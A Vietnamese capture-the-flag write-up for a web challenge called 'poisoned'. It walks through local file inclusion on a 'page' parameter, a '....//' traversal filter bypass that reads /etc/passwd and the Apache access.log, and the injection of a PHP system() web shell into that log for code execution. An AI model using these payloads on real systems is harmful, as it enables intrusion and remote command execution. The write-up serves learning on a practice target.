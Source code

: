 
flag: jctf{I_WILL_BE_BACK_FOR_MORE_C00KI3S!}


# poisoned
WEB

688 point

## Description

![](https://hackmd.io/_uploads/SJUMNjroh.png)


## Solution
Tương tự mình tiếp tục tuy cập liên kết được cung cấp và nhận được một website như sau:

![](https://hackmd.io/_uploads/By6M4oSih.png)


đề bài có dự kiện liên quan tới việc đầu độc làm mình liên tưởng tới poisoned log, lỗ hổng này cần tấn công thông quan Local File Inclusion để thực thi mã từ xa
Vì vậy nếu tìm thấy lỗ hổng LFI trên website này thì chứng minh mình đúng.

Đề bài đã gợi ý sẵn: https://jerseyctf-poisoned.chals.io/?page=welcome  

có một tham số tên là page mình sẽ thử LFI ở đây. 

payload 1: https://jerseyctf-poisoned.chals.io/?page=../../../../../../../../../../../../etc/passwd
web báo lỗi như sau: 

![](https://hackmd.io/_uploads/Hyv7NiBjh.png)


hmm nhìn cứ như bị chặn ấy nhỉ

thôi để cho chắc chắn thì mình nghĩ nên intruder chứ ai mà biết nó filter cái gì.

sau một hồi chạy intruder mình tìm thấy paylaod đúng đây: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//etc/passwd

![](https://hackmd.io/_uploads/H137Vori2.png)

Tiếp theo để thực hiện Poinsoned log thì mình cần phải biết file log là gì.

ta lại tiếp tục thay đoạn etc/passwd bằng cách log file phổ biến.
sau một hồi Intruder nữa mình tìm thấy log file này: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log

![](https://hackmd.io/_uploads/rkGV4sSsn.png)


Ta thấy log này lưu trữ các truy cập từ người dùng đúng không. kể cả nãy giờ mình truy cập etc/passwd với access.log nó cũng lưu
tiếp theo chèn đoạn php sau: `<?php system($_GET['poison']);?>` bằng cách truy cập link:
`https://jerseyctf-poisoned.chals.io/<?php system($_GET['poison']);?>`   để nó được lưu vào access.log
